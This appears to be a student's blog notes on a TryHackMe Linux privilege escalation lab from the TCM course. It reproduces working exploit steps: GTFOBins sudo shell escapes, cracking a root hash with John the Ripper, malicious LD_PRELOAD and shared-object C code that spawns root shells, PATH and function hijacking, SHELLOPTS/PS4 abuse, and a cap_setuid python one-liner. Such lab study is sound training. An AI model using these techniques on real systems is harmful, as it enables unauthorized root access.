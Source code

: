 ```yaml
---
layout: post
title:  "TCM: Linux Priviledge Escalation"
date:   2024-02-04 13:50:01 -0600
categories: TCM
image: /assets/img/linux-privescalation.png
---
```

Linux PrivEsc Lab - https://tryhackme.com/room/linuxprivescarena
# Sudo & SUID

Following the course, it starts to get more difficult, when going through the Sudo in 
## Task 8 Sudo (Abusing Intended Functionality)

Shell escaping was fairly straight forward except he didnt explain the multiple lines.
When you have something from gtfobins
```
TERM= sudo more /etc/profile
!/bin/sh
```
it means type the lines 1 at a time, so the second line would be typed after your run the 1st one

## Task 9 Sudo (LD_PRELOAD)
I didn't like this as you had to understand john the ripper, but luckily I was halfway thru the [John the Ripper](
https://tryhackme.com/room/johntheripper0) room so that help get the syntax correct, and look at that wordlist.  Where is that?

```
Your hash.txt file should look like this:
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=sha512crypt
```
I added the password in the rockyou.txt file so I can make this run, but the format was missing

## Task 10
Here's where the REAL learning begins.  He is using the LD_PRELOAD to preload a c file 

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

I really enjoyed this one and had to practice several times before understanding what I'm doing.

## Task 11 SUID (Shared Object Injection)
I would actually STOP here and make sure you understand what he's doing in Task 10.  

Its very similar except he's running suid-so

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

## Task 12 SUID (Symlinks)

This uses symlink which I'm not too experienced with, but he's using that link to execute in the logs

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

Probably have to re-watch this video

## Task 13 SUID (Environment Variables #1)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

### Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## Task 14 SUID (Environment Variables #2)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

### Exploitation Method #2

Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
## Task 15 Capabilities

### Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

### Linux VM

1. In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```